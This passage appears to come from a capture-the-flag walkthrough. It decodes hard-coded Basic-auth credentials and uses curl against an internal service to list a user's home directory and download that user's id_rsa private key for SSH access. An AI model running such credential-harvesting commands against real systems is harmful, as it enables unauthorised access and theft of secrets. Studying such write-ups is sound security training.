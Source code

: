 We can verify it by inverting the `base64` value to a text. 

{% highlight sh %}
echo -n "d2ViYXBpX3VzZXI6aWFtdGhlYmVzdA==" | base64 -d
{% endhighlight %}

{% highlight sh %}
webapi_user:iamthebest
{% endhighlight %}

So, we just need to add that value to our "curl" header.

{% highlight sh %}
curl "http://127.0.0.1:3001/" -H "Authorization: Basic d2ViYXBpX3VzZXI6aWFtdGhlYmVzdA=="
{% endhighlight %}

Now we can access the home page of the second instance on port `3001`.

All we need to do is adding `~r.michaels` to the url.

{% highlight sh %}
curl "http://127.0.0.1:3001/~r.michaels/" -H "Authorization: Basic d2ViYXBpX3VzZXI6aWFtdGhlYmVzdA=="
{% endhighlight %}

{% highlight text %}
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
	border-top: 1px solid black;
	border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>
{% highlight %}

Remember that the server has been started with the `-X` argument, which means that we have `directory indexing` enabled. This is why we have that response from the server. Be carreful to not forget the trailing `/` in the url. Otherwise, it won't work !

Great, we have access to the local `public_html` folder of `r.michaels`. 
There is a private key inside, let's grab it and connect via `ssh`.

{% highlight sh %}
curl "http://127.0.0.1:3001/~r.michaels/id_rsa" -H "Authorization: Basic d2ViYXBpX3VzZXI6aWFtdGhlYmVzdA=="
{% endhighlight %}
